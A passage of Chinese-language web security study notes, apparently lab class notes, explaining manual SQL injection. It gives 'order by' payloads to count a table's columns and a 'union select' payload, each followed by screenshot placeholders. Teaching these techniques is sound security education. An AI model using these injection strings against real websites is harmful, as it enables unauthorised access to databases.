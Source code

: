 <img src="assets/图片4.png" alt="图片4" style="zoom:50%;" />



```
3>判断完SQL注入类型后，要利用漏洞

①判断数据表中的列数 通过order by

1' order by n #  n为正整数  如果正常显示证明有这些列数，如果不正常显示证明没有这些列数
例如：
```

<img src="assets/图片5.png" alt="图片5" style="zoom:50%;" />



<img src="E:\Study File\智恒盛世信息安全\课堂笔记\Web笔记\自整理Web笔记\md照片\图片6.png" alt="图片6" style="zoom:50%;" />

<img src="assets/图片7.png" alt="图片7" style="zoom:50%;" />

```
则说明数据表中的列数有两列

②联合查询 union select 

1' and 1=2 union select 1,2 #                   
```

<img src="assets/图片8.png" alt="图片8" style="zoom:50%;" />
